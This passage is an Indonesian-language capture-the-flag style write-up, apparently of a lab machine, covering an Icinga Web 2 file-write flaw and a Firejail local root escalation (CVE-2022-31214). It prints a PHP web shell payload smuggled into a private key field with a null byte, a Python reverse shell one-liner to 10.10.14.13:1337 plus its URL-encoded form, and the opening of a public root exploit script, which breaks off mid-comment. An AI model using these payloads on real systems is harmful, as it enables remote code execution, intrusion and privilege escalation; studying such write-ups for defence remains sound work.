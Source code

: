 Untuk payload shell bisa menggunakan payload ini
```sql
Private key : file:///etc/icingaweb2/ssh/yp13\x00<?php system($_REQUEST['cmd']);?>
```
![image](https://media.discordapp.net/attachments/740245586095112242/1092691013547593838/image.png)

Module SHM jangan lupa aktif untuk menjalankan shell
![image](https://media.discordapp.net/attachments/740245586095112242/1092691207626428477/image.png)

Setelah itu kita mencoba menjalankan shell tadi yang sudah diupload dengan curl disini mendapatkan, Response
![image](https://media.discordapp.net/attachments/740245586095112242/1092691449432248351/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1092691543602765935/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1092691645671145482/image.png)

## Backconnect dengan Netcat

Selanjutnya kita menggunakan payload dibawah untuk backconnect dengan netcat dengan reverse shell python script
```sql
export RHOST="10.10.14.13";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```
```sql
%65%78%70%6f%72%74%20%52%48%4f%53%54%3d%22%31%30%2e%31%30%2e%31%34%2e%31%33%22%3b%65%78%70%6f%72%74%20%52%50%4f%52%54%3d%31%33%33%37%3b%70%79%74%68%6f%6e%33%20%2d%63%20%27%69%6d%70%6f%72%74%20%73%79%73%2c%73%6f%63%6b%65%74%2c%6f%73%2c%70%74%79%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%6f%73%2e%67%65%74%65%6e%76%28%22%52%48%4f%53%54%22%29%2c%69%6e%74%28%6f%73%2e%67%65%74%65%6e%76%28%22%52%50%4f%52%54%22%29%29%29%29%3b%5b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%66%64%29%20%66%6f%72%20%66%64%20%69%6e%20%28%30%2c%31%2c%32%29%5d%3b%70%74%79%2e%73%70%61%77%6e%28%22%62%61%73%68%22%29%27
```
Menjalankan dengan perintah Curl
![image](https://media.discordapp.net/attachments/740245586095112242/1092692056889114644/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1092692147272171530/image.png)

## Privileges Escalation (CVE-2022-31214)

Setelah mencari cari kita menemukan kerentanan pada firejail yang dapat dimaanfatkan untuk Privileges Escalation. [Reference](https://seclists.org/oss-sec/2022/q2/188) dan [PoC](https://www.openwall.com/lists/oss-security/2022/06/08/10)
![image](https://media.discordapp.net/attachments/740245586095112242/1092692588278059108/image.png)

PoC untuk file python untuk mendapatkan panggilan dari firejail menggunakan [PoC](https://seclists.org/oss-sec/2022/q2/att-188/firejoin_py.bin)
```python
#!/usr/bin/python3

# Author: Matthias Gerstner <matthias.gerstner () suse com>
#
# Proof of concept local root exploit for a vulnerability in Firejail 0.9.68
# in joining Firejail instances.
#
# Prerequisites:
# - the firejail setuid-root binary needs to be installed and accessible to the
#   invoking user
#
# Exploit: The exploit tricks the Firejail setuid-root program to join a fake
# Firejail instance. By using tmpfs mounts and symlinks in the unprivileged
# user namespace of the fake Firejail instance the result will be a shell that
```